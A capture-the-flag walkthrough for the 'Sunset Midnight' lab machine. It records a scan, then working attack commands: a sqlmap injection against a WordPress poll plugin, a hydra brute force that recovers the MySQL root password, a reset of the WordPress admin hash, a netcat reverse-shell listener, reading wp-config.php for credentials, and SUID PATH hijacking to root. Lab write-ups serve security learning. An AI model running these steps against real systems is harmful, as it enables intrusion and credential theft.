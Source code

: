 # Sunset Midnight

***

IP=192.168.155.88

| PORT     | STATE | SERVICE |
| -------- | ----- | ------- |
| 22/tcp   | open  | ssh     |
| 80/tcp   | open  | http    |
| 3306/tcp | open  | mysql   |

## NMAP

```perl
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9cfe0b8b8d15e7727e3c23e58655512d (RSA)
|   256 feebef5d40e706679b6367f8d97ed3e2 (ECDSA)
|_  256 3583682c338bb46c2421200d52edcd16 (ED25519)
80/tcp   open   http       Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://sunset-midnight/
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
3036/tcp closed hagel-dump
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80

```perl
whatweb http://$IP
http://192.168.155.88 [301 Moved Permanently] Apache[2.4.38], Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.38 (Debian)], IP[192.168.155.88], RedirectLocation[http://sunset-midnight/], UncommonHeaders[x-redirect-by]
```

### /etc/hosts

```txt
IP  midnight-host
```

### Wordpress

WordPress 5.4.2

#### simply-poll-master

vulnerable to sqli

```bash
sqlmap -u "http://sunset-midnight/wp-admin/admin-ajax.php" --data="action=spAjaxResults&pollid=2"
```

## Mysql 3306

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP mysql -t 5
```

> root:robert

```bash
echo -n "password" | md5sum
5f4dcc3b5aa765d61d8327deb882cf99
```

```mysql
use wordpress_db;
update wp_users set user_pass="5f4dcc3b5aa765d61d8327deb882cf99" where id=1;
```

## Login wordpress



<figure><img src="../.gitbook/assets/Pasted image 20231022130312 (1).png" alt=""><figcaption></figcaption></figure>

```bash
nc -lvnp 1234
```

## PrivEsc

```bash
cat /var/www/html/wordpress/wp-config.php
```

jose:645dc5a8871d2a4269d4cbe23f6ae103

### Unknown SUID binary

```bash
strings /usr/bin/status
```



<figure><img src="../.gitbook/assets/Pasted image 20231022131717.png" alt=""><figcaption></figcaption></figure>

### Path hijacking

```bash
export PATH=/tmp/:$PATH
cd /tmp
touch service
echo "/bin/sh" > service
chmod +x service
/usr/bin/status
```
